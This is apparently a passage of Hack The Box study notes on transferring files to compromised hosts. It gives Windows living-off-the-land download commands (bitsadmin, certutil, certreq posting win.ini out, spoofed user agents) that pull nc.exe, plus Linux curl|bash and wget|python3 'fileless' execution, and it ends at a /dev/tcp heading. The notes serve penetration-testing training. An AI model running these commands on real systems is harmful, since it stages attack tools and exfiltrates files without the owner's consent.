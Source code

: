 ```C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini```

#### Download with bitsadmin

```PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe```

```PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"```

#### Download with certutil

```C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe```


## User Agent changing

```
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

#### Listing user agents

```PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl```

# Linux

                    

## Download with wget/curl
```    
$ wget <url> -O <outfile>
```

! the output filename option  here is lowercase `-o'.

```
$ curl -o <outfile> <url>
```

## Fileless Attacks Using Linux


Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

!Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload choosen it may create temporary files on the OS.


#### Fileless Download with cURL

```
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless Download with wget

```
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


##  Download with Bash (/dev/tcp)

```
